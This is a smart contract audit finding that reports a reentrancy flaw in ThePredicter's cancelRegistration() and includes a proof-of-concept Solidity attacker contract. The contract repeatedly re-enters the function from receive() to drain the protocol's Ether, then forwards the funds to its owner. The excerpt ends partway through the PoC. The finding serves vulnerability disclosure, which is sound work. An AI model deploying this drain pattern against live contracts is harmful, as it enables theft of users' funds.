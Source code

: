 ## Sending Ether before updating the contract's state in cancelRegistration() can cause a reentrancy attack, leading to significant fund losses.

### Relevant GitHub Links

https://github.com/Cyfrin/2024-07-the-predicter/blob/839bfa56fe0066e7f5610197a6b670c26a4c0879/src/ThePredicter.sol#L62

## Summary

In the Predicter protocol, players can register by paying an entrance fee set by the betting protocol organizer. After registration, players have the option to cancel their registration. Also, if the number of registered players reaches the maximum limit of 30, the player can also call the `cancelRegistration()` function to cancel their registration.
The current implementation has a vulnerability where Ether is sent to the player before updating the state, allowing attackers to exploit this and drain the protocol's funds through repeated registrations and cancellations.

## Vulnerability Details

In the ThePredicter contract, attacker can register as a player and call the `cancelRegistration()` function to cancel their registration, with the intention of re-entry it since the state is updated after the transfer of the ether.

## POC

### Contract

    // SPDX-License-Identifier: SEE LICENSE IN LICENSE
    pragma solidity 0.8.20;

    import {ThePredicter} from "../../src/ThePredicter.sol";
    import {Test, console} from "forge-std/Test.sol";

    contract ReentrancyAttack {
    address public owner;

    ThePredicter predicter;

    constructor(address _contractaddress) {
        predicter = ThePredicter(_contractaddress);
        owner = payable(msg.sender);
    }

    function attack(uint256 amount) external {
        predicter.register{value: amount}();

        predicter.cancelRegistration();
    }

    receive() external payable {
        if (address(predicter).balance > 0) {
            predicter.cancelRegistration();
        }
        (bool success, ) = payable(owner).call{value: address(this).balance}(
            ""
        );
        if (!success) revert("Failed Transaction");
    }
